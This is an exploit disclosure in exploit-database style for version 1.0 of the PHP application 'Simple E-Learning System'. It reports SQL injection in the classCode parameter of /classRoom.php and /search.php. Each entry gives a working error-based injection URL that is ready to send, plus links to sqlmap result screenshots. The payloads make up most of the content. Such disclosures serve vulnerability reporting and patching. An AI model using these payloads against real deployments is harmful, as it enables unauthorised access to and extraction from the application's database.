 ### Exploit Title: Simple E-Learning System - Multiple SQL injections
### Date: 2022-07/20
### Exploit Author: xiahao@webray.com.cn
### Vendor Homepage: https://www.sourcecodester.com
### Software Link: https://www.sourcecodester.com/php-simple-e-learning-system-source-code
### Version: 1.0
### Tested on: windows10 + phpstudy


# 1./classRoom.php
/classRoom.php SQL injection exists for parameter classCode

### Sample request POC #1

```
http://[ip:port]/classRoom.php?classCode=1'||(SELECT 0x6770715a WHERE 8795=8795 AND (SELECT 8342 FROM(SELECT COUNT(*),CONCAT(0x7171786b71,(SELECT (ELT(8342=8342,1))),0x717a7a7671,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16582996517475.png "Simple E-Learning System")


# 2./search.php
/search.php SQL injection exists for parameter classCode

### Sample request POC #2

```
http://[ip:port]/search.php?classCode=1'||(SELECT 0x74666264 WHERE 5610=5610 AND (SELECT 7504 FROM(SELECT COUNT(*),CONCAT(0x7171627a71,(SELECT (ELT(7504=7504,1))),0x71717a7071,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'
```
### Sqlmap running results
![blockchain](https://github.com/xiahao90/CVEproject/blob/main/imgs/16583004584228.png "Simple E-Learning System")


